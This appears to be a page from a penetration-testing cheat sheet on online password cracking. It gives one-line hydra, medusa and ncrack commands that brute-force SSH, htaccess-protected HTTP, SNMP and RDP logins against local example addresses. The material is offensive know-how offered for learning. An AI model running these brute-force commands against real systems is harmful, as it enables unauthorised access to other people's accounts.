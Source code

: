 # Online password cracking


There are several tools specialized for bruteforcing online. There are several different services that are common for bruteforce. For example: VNC, SSH, FTP, SNMP, POP3, HTTP. 

## Port 22 - SSH

```
hydra -l root -P wordlist.txt 192.168.0.101 ssh
```

## Port 80/443 htaccess

You can password protect directories with apache pretty easily. Just configure the htaccess (I exaplin this in the chapter on Common ports).

It can then be brute forced like this:

```
medusa -h 192.168.1.101 -u admin -P wordlist.txt -M http -m DIR:/test -T 10
```


## Port 161 - SNMP

```
hydra -P wordlist.txt -v 102.168.0.101 snmp
```

## Port 3389 - Remote Desktop Protocol

For RDP we can use Ncrack.

```
ncrack -vv --user admin -P password-file.txt rdp://192.168.0.101
```